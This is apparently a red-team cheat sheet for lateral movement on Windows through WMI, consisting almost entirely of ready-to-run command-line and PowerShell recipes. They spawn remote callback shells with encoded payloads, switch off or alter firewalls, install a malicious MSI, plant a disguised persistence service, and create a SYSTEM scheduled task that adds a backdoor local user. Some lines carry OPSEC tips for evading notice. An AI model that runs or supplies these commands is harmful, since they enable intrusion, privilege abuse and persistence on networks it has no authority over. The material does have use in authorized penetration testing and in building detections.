 # Living off the Land

## 01 - Command Prompt

### 1.1 - Usage

TODO: Consult cybereason blog post to replicate the attacks (refer to the links)

- Execute a WMIC with commands remotely (You'll be relying on this a lot and it leaves a little footprint)

```
C:\> where /r C:\ wmic.exe

C:\> wmic /node:<IP> [/user:<username> /password:<password>] process call create "<commands>"

C:\> wmic /node:<IP> [/user:<username> /password:<password>] win32_process call create "C:\path\to\shell.exe"
```

### 1.2 - Use Cases

#### 1.2.1 - Spawn Callback Shells

```
C:\> wmic /node:<IP> [/user:<username> /password:<password>] process call create "cmd.exe /c <commands>"

C:\> wmic /node:<IP> [/user:<username> /password:<password>] process call create "C:\path\to\shell.exe"

C:\> wmic /node:<IP> [/user:<username> /password:<password>] process call create "rundll32 C:\path\to\shell.dll"

C:\> wmic /node:<IP> [/user:<username> /password:<password>] process call create "C:\Windows\System32\WindowsPowershell\v1.0\powershell -v 2 -enc <base64_encoded>"

C:\> wmic /node:<IP> [/user:<username> /password:<password>] process call create "C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe -v 2 -enc <base64_encoded>"
```

#### 1.2.2 - Firewalls

Disabling firewall rules (not recommended for OPSEC)

```
C:\> wmic /node:<IP> [/user:<username> /password:<password>] process call create "cmd.exe /c netsh advfirewall set allprofiles state off"
```

Deleting a firewall rule

```
C:\> wmic /node:<IP> [/user:<username> /password:<password>] process call create "cmd.exe /c netsh advfirewall firewall delete rule name=\"<rule_name>\""
```

Adding firewall rules

```
C:\> wmic /node:<IP> [/user:<username> /password:<password>] process call create "cmd.exe /c netsh advfirewall firewall add rule name=\"<rule_name>\" dir=in action=allow protocol=tcp localport=<port>"
```

## 02 - Powershell

### 2.1 - Usage

#### 2.1.1 - Invoke-WmiMethod

```
PS C:\> Get-CimInstance -Classname Win32_Net* -List

PS C:\> Invoke-WmiMethod -Class Win32_NetConnection -ComputerName <IP> -Name RunPS -ArgumentList "<commands>"
```

#### 2.1.2 - Invoke-CimMethod

```powershell
PS C:\> $username = '<username>'
$password = '<password>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword

$Opt = New-CimSessionOption -Protocol DCOM

$Session = New-CimSession -ComputerName <IP> -Credential $credential -SessionOption $Opt -ErrorAction Stop

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
	CommandLine = "powershell.exe -noni -nop -ep bypass -E <base64_payload>"
}
```

### 2.2 - Use Cases

#### 2.2.1 - Spawn Callback Shells

##### 2.2.1.1 - Download Cradle

- `Invoke-WmiMethod`

```powershell
PS C:\> Invoke-WmiMethod -Class Win32_NetConnection -ComputerName <IP> -Name RunPS -ArgumentList "powershell -E <base64_encoded>"
```

```powershell
PS C:\> $servicetype = [byte] 16
$errorcontrol = [byte] 1
Invoke-WmiMethod -Class Win32_Service -Name Create -ArgumentList $false, "Windows Performance", $errorcontrol, $null,$null,"WinPerf","c:\windows\system32\cmd.exe /c powershell -e <base64_encoded>",$null,$servicetype,"Manual","NT AUHORITY\SYSTEM","" -ComputerName <IP> -Credential <domain>\Administrator
```

- `Invoke-CimMethod`

```powershell
PS C:\> $username = '<username>'
$password = '<password>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword

$Opt = New-CimSessionOption -Protocol DCOM

$Session = New-CimSession -ComputerName <IP> -Credential $credential -SessionOption $Opt -ErrorAction Stop

$Command = "powershell.exe -noni -nop -ep bypass -E <base64_payload>"

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
	CommandLine = $Command
}
```

##### 2.2.1.2 - MSI Package

- `Invoke-CimMethod`

```powershell
PS C:\> $username = '<username>'
$password = '<password>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword

$Opt = New-CimSessionOption -Protocol DCOM

$Session = New-CimSession -ComputerName <IP> -Credential $credential -SessionOption $Opt -ErrorAction Stop

Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{
	PackageLocation = "C:\path\to\shell.msi";
	Options = "";
	AllUsers = $false
}
```

#### 2.2.2 - Create Service

```powershell
PS C:\> $username = '<username>'
$password = '<password>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword

$Opt = New-CimSessionOption -Protocol DCOM

$Session = New-CimSession -ComputerName <IP> -Credential $credential -SessionOption $Opt -ErrorAction Stop

Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
	Name = "UpdateSVC";
	DisplayName = "UpdateSVC";
	Pathname = "C:\path\to\shellsvc.exe";
	ServiceType = [byte]::Parse("16"); # Win32OwnProcess
	StartMode = "<Manual | Auto>"
}

$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -Filter "Name LIKE 'UpdateSVC'"
```

- Start the service

```
PS C:\> Invoke-CimMethod -InputObject $Service -MethodName StartService
```

- Stop the service

```
PS C:\> Invoke-CimMethod -InputObject $Service -MethodName StopService
```

- Delete service

```
PS C:\> Invoke-CimMethod -InputObject $Service -MethodName Delete
```

#### 2.2.3 - Schedule Tasks

```powershell
PS C:\> $username = '<username>'
$password = '<password>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword

$Opt = New-CimSessionOption -Protocol DCOM

$Session = New-CimSession -ComputerName <IP> -Credential $credential -SessionOption $Opt -ErrorAction Stop

$Command = "cmd.exe"

$Args = "/c net user <username> <password> /add & net localgroup `"<local_group>`" <username> /add /y"

# Create new schedule task

$Action = New-ScheduleTaskAction -CimSession $Session -Execute $Command $Argument $Args

Register-ScheduleTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "<schedule_taskname>"

# Execute schedule task

Start-ScheduleTask -CimSession $Session -TaskName "<schedule_taskname>"

# Delete schedule task

Unregister-ScheduleTask -CimSession $Session -TaskName "<schedule_taskname>"
```

---
## References

- [Hacking Articles: Remote Services (Mitre:T1021)](https://www.hackingarticles.in/lateral-movement-remote-services-mitret1021/)

- [Mandiant: Windows Management Instrumentation](https://www.mandiant.com/sites/default/files/2021-09/wp-windows-management-instrumentation.pdf)

- [Cybereason: No Win32 Process Needed | Expanding the WMI Lateral Movement Arsenal](https://www.cybereason.com/blog/wmi-lateral-movement-win32)